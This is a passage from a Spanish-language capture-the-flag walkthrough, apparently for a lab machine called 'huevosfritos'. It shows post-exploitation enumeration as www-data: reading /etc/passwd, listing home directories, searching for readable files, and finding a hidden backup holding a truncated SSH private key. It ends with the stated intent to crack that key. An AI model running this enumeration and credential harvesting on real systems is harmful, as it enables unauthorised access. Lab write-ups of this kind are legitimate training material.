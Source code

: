 Veamos qué usuarios existen en la máquina:
```bash
www-data@huevosfritos:/var/www/html/squirting$ cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
huevosfritos:x:1001:1001::/home/huevosfritos:/bin/bash
```
Tenemos al **usuario huevosfritos**.

Podemos ver su directorio en el directorio `/home`:
```bash
www-data@huevosfritos:/var/www/html/squirting$ ls -la /home
total 12
drwxr-xr-x  3 root         root         4096 Jun 16  2024 .
drwxr-xr-x 18 root         root         4096 Jun  8  2024 ..
drwxr-xr-x  4 huevosfritos huevosfritos 4096 Jun 16  2024 huevosfritos
```

Tenemos permitido entrar, pero no podremos ver la flag que está ahí:
```bash
www-data@huevosfritos:/var/www/html/squirting$ ls -la /home/huevosfritos/
total 32
drwxr-xr-x 4 huevosfritos huevosfritos 4096 Jun 16  2024 .
drwxr-xr-x 3 root         root         4096 Jun 16  2024 ..
lrwxrwxrwx 1 root         root            9 Jun 16  2024 .bash_history -> /dev/null
-rw-r--r-- 1 huevosfritos huevosfritos  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 huevosfritos huevosfritos 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 huevosfritos huevosfritos 4096 Jun 16  2024 .local
-rw-r--r-- 1 huevosfritos huevosfritos  807 Apr 23  2023 .profile
drwx------ 2 huevosfritos huevosfritos 4096 Jun 16  2024 .ssh
-r-------- 1 huevosfritos huevosfritos   36 Jun 16  2024 user.txt
```
Investigando un poco más, no encontraremos nada que nos pueda ayudar a escalar privilegios.

Sin embargo, analizando los archivos que podemos leer con el siguiente comando (**OJO**, son bastantes), veremos un archivo interesante:
```bash
www-data@huevosfritos:/home/huevosfritos$ find / -type f -readable 2>/dev/null
...
/var/backups/apt.extended_states.1.gz
/var/backups/apt.extended_states.0
/var/backups/.cositas
/var/backups/apt.extended_states.2.gz
...
```

Vamos a leer ese archivo:
```bash
www-data@huevosfritos:/home/huevosfritos$ cat /var/backups/.cositas
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1...
...
...
```
Es una **llave privada id_rsa**, así que vamos a crackearla.
